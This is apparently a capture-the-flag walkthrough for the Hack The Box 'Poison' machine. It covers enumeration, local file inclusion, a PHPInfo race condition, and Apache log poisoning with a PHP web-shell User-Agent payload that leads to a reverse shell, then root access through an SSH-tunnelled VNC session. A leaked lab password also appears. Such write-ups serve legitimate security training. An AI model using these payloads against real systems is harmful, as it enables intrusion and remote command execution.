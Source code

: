 # Poison

## Information Gathering
10.10.10.84<br>
Poison<br>

Software Versions
- OpenSSH 7.2
- Apache httpd 2.4.29
- PHP 5.6.32

## Enumeration
Start with an nmap scan:
```bash
# Nmap 7.92 scan initiated Fri Feb 18 15:19:10 2022 as: nmap -sC -sV -oN nmap/poison.nmap 10.10.10.84
Nmap scan report for 10.10.10.84
Host is up (0.062s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2 (FreeBSD 20161230; protocol 2.0)
| ssh-hostkey: 
|   2048 e3:3b:7d:3c:8f:4b:8c:f9:cd:7f:d2:3a:ce:2d:ff:bb (RSA)
|   256 4c:e8:c6:02:bd:fc:83:ff:c9:80:01:54:7d:22:81:72 (ECDSA)
|_  256 0b:8f:d5:71:85:90:13:85:61:8b:eb:34:13:5f:94:3b (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((FreeBSD) PHP/5.6.32)
|_http-server-header: Apache/2.4.29 (FreeBSD) PHP/5.6.32
|_http-title: Site doesnt have a title (text/html; charset=UTF-8).
Service Info: OS: FreeBSD; CPE: cpe:/o:freebsd:freebsd

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Feb 18 15:19:30 2022 -- 1 IP address (1 host up) scanned in 20.09 seconds

```
I also run a Nikto scan
```bash
- Nikto v2.1.6/2.1.5
+ Target Host: 10.10.10.84
+ Target Port: 80
+ GET Retrieved x-powered-by header: PHP/5.6.32
+ GET The anti-clickjacking X-Frame-Options header is not present.
+ GET The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ GET The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ HEAD PHP/5.6.32 appears to be outdated (current is at least 7.2.12). PHP 5.6.33, 7.0.27, 7.1.13, 7.2.1 may also current release for each branch.
+ HEAD Apache/2.4.29 appears to be outdated (current is at least Apache/2.4.37). Apache 2.2.34 is the EOL for the 2.x branch.
+ TNNUJRCH Web Server returns a valid response with junk HTTP methods, this may cause false positives.
+ OSVDB-877: TRACE HTTP TRACE method is active, suggesting the host is vulnerable to XST
+ GET /phpinfo.php: Output from the phpinfo() function was found.
+ OSVDB-12184: GET /?=PHPB8B5F2A0-3C92-11d3-A3A9-4C7B08C10000: PHP reveals potentially sensitive information via certain HTTP requests that contain specific QUERY strings.
+ OSVDB-3233: GET /phpinfo.php: PHP is installed, and a test script which runs phpinfo() was found. This gives a lot of system information.
```

## Exploitation
There are actually three known AV's for this box.

### Pwdbackup.txt
This is how you cheese the box.<br>
There is a file hosted on the webserver title pwdbackup.txt. Fetching this file yields a string which was encoded in base64 13 times. Decoding this gives you the password for a user. There is a LFI vulnerability for browse.php which allows you to exfiltrate information. The /etc/passwd file shows the username to be charix. This gives you foothold on the box.
```
charix:Charix!2#4%6&8(0
```

### PHP Race Condition
<a href="https://insomniasec.com/cdn-assets/LFI_With_PHPInfo_Assistance.pdf">This</a> research paper shows this really cool race condition when a webserver has the "file_upload" feature set and is also vulnerable to a LFI vulnerability. It's a bit dense so there is <a href="https://github.com/sinsinology/phpinfo-Local-File-Inclusion">this</a> PoC which is a bit easier to understand.<br>
Essentially what the script does is,
1. Make a very large request. This causes the server 2-3 ms extra time to compute and thus, the file stays on the server for much longer.
2. Use LFI to hit the file before it gets deleted from cache
I actually get the script off of <a href="https://github.com/swisskyrepo/PayloadsAllTheThings">PayloadAllTheThings</a>. <a href="https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/File%20Inclusion/phpinfolfi.py">This</a> is the script I used. I made some minor changes such as the PHP payload to be used. I also had to change all instances of ">" into "&gt" because of PHP entities. You also have to remove the NULL byte in LFIREQ. After a few seconds, I get a reverse shell!<br>
Note: On BSD, files for the webserver are stored at /usr/local/www/apache24/data by default.

### Log Poisoning
This is the intended method for getting foothold on the box.<br>
The log file for apache2 in OpenBSD is located in /var/log/httpd-access.log. We can view this page using the LFI. The key thing to note is that the user-agent is included in the access log. Below is the result of me using cURL to get a file on the server
```
10.10.14.122 - - [20/Feb/2022:03:13:17 +0100] "GET /browse.php?file=/var/log/httpd-access.log HTTP/1.1" 200 5759905 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0"
10.10.14.122 - - [20/Feb/2022:03:13:18 +0100] "GET /favicon.ico HTTP/1.1" 404 209 "http://10.10.10.84/browse.php?file=/var/log/httpd-access.log" "Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0"
10.10.14.122 - - [20/Feb/2022:03:14:38 +0100] "GET /browse.php?file=/var/log/httpd-access.log HTTP/1.1" 200 5760312 "-" "curl/7.81.0"
```
Using <b><?php phpinfo(); ?></b> allows me to render the phpinfo of the server from the log file. I use the payload:
```php
Mozilla/5.0 <?php echo system($_GET['cmd']); ?> Firefox/78.0
```
In the user agent. After that it's as simple as setting the "cmd" parameter and executing commands to get a reverse shell.

## Privilege Escalation
Looking at all the services/processes running as root:
```bash
ps aux | grep ^root

root   620  0.0  0.7  57812  7052  -  Is   04:26    0:00.00 /usr/sbin/sshd
root   625  0.0  1.1  99172 11516  -  Ss   04:27    0:00.03 /usr/local/sbin/httpd -DNOHTTPACCEPT
root   643  0.0  0.6  20636  6140  -  Ss   04:28    0:00.02 sendmail: accepting connections (sendmail)
root   653  0.0  0.2  12592  2436  -  Is   04:28    0:00.00 /usr/sbin/cron -s
root   709  0.0  0.8  85228  7768  -  Is   04:29    0:00.01 sshd: charix [priv] (sshd)
root   529  0.0  0.9  23620  8872 v0- I    04:26    0:00.02 Xvnc :1 -desktop X -httpd /usr/local/share/tightvnc/classes -auth /root/.Xauthority -geometry 1280x800 -depth 24 -rfbwait 120000 -rfbauth /root/.vnc/passwd -rfbport 5901 -loc
root   540  0.0  0.7  67220  7064 v0- I    04:26    0:00.02 xterm -geometry 80x24+10+10 -ls -title X Desktop
root   541  0.0  0.5  37620  5312 v0- I    04:26    0:00.01 twm
```
VNC is running as root. We can also see what services are running on what ports.
```bash
netstat -an | grep LISTEN

tcp4       0      0 127.0.0.1.25           *.*                    LISTEN
tcp4       0      0 *.80                   *.*                    LISTEN
tcp6       0      0 *.80                   *.*                    LISTEN
tcp4       0      0 *.22                   *.*                    LISTEN
tcp6       0      0 *.22                   *.*                    LISTEN
tcp4       0      0 127.0.0.1.5801         *.*                    LISTEN
tcp4       0      0 127.0.0.1.5901         *.*                    LISTEN
```
VNC is running on the localhost interface. We can perform a SSH tunnel/SSH port-forwarding. To port forward:
```bash
ssh -L 5901:127.0.0.1:5901 charix@10.10.10.84
```
This command pretty much says:
- Listen on my machine on port 5901 (-L)
- Any traffic that goes through ssh (ssh charix@10.10.10.84)
- Send to localhost on port 5901
We can use vncviewer to connect on our localhost. This goes through SSH and on the other side gets forwarded to 127.0.0.1
```bash
vncviewer -passwd secret 127.0.0.1::5901
``` 
This opens up a sort-of RDP session as root.